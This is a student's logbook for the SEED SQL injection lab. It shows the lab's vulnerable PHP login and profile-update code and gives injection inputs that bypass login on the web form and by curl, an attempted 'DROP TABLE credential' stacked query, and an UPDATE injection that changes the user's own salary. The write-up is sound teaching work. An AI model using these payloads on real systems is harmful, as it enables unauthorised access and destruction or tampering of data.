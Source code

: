 # SQL Injection LogBook

This logbook pretends to documentante the work that was made in the SQL Injection lab, deduce some conclusions, identify the errors that were commited as well as to suggest the mosifications that would make the system secure to this type of attacks.


## Task 2

In this attack, we were presented to the php file that is being ran under the server side

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);


```

### Task 2.1 - Attack from webpage

Considering that we know the code, it is really easy to exploit this vulnerability:

`username: admin'; -- `


`password: <anything> `

This approach works, because the sql statement that will be queried to the database will be partionally connected and, with that, we can enter the system:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; -- and Password=’<anything>";
```

### Task 2.2 - Attack from command line

After that, the approach that was made was exaclty the same, but in the command line, it will go like this:

```sh
curl ’www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password=<anything>’
```

This approach works and the justification is similar to task 2.1

### Task 2.3 - Append a new SQL statement

The next challange is to try to add a new sql statement in the project. Here is a way of how to do that:

`username: admin'; DROP TABLE credential; -- `


`password: <anything> `

This approach will lead to a query like this:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; DROP TABLE credential; -- and Password=’<anything>";
```

However, this query does not let to drop the table `creentia`. That occurs because the `$conn -> query($sql)` only executes the first query as a protection measure.

## Task 3

Here is the php code that executes the query that will update the database after editing the profile

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
   nickname=’$input_nickname’,
   email=’$input_email’,
   address=’$input_address’,
   Password=’$hashed_pwd’,
   PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

The form looks like this:

![Form2](images/LOGBOOK8/form2.png)

### Task 3.1 - Modify own salary

To do so, the parameters would be

`nickname: <nickname>', salary = 1000000 WHERE nickname = <nickname>; -- `

`email: <anything>`

`address: <anything>`

`password: <anything>`

`phone numer: <anything>`

With that, we reach the following sql coode:

```sql
UPDATE credential SET
   nickname=’<nickname>’, salary = 1000000 WHERE nickname = <nickname>; -- email=’$input_email’, address=’$input_address’, Password=’$hashed_pwd’, PhoneNumber=’$input_phonenumber’ WHERE ID=$id;
```
